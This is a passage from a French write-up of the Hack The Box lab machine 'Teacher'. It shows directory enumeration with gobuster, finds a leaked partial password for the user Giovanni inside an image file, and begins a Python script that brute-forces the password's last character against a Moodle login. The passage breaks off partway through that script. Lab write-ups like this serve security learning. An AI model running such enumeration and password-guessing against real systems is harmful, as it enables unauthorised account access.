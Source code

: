     root@Seyptoo:~/htb/writeup/Teacher# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.153/ -q -t 50
    /images (Status: 301)
    /css (Status: 301)
    /manual (Status: 301)
    /js (Status: 301)
    /javascript (Status: 301)
    /fonts (Status: 301)
    /moodle (Status: 301)

Donc concrètement il y'a pas mal de dossiers à énumérer on va s'intéréssé à /images et à /moodle précisement. Donc quand j'accède au dossier /images il y'a un fichier assez inhabituel un fichier qui à un code HTTP.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/569129555827228682/unknown.png)](https://cdn.discordapp.com/attachments/556442801085218827/569129555827228682/unknown.png)

Donc comme vous pouvez le voir c'est un fichier assez inhabituel donc on va voir la source de ce fichier pour voir si nous avons des informations.

    root@Seyptoo:~/htb/writeup/Teacher# curl http://10.10.10.153/images/5.png
    Hi Servicedesk,

    I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

    Could you guys figure out what the last charachter is, or just reset it?

    Thanks,
    Giovanni
    
Effectivement si nous avons des informations et que dans le mot de passe Th4C00lTheacha il manque un caractère à la fin du coup donc ce mot de passe peut correspondre au CMS /moodle donc l'utilisateur et Giovanni et le mot de passe Th4C00lTheacha?. Donc pour cela j'ai développé un script en Python pour essayer de trouver le dernier caractère du mot de passe en question.

    #!/usr/bin/env python 
    #coding:utf-8

    import requests
    import sys
    import re

    class Teacher:
        def __init__(self, target="http://10.10.10.153/", path="moodle/login/index.php",
                                           end_pass=None):

            '''
                This function will create
                the variables by defaults and testing.
            '''

            self.target_url   = target
            self.path_url     = path
            self.end_password = end_pass

        def send_req(self):
            '''
                This feature will handle the attack
                and send the passwords and test them in function send_req()
            '''
            self.end_password = ["*", "=", "!", "/", "_", "1", "2", "3", "4", "5", "6", "7", "8", "9", "#", "+"]
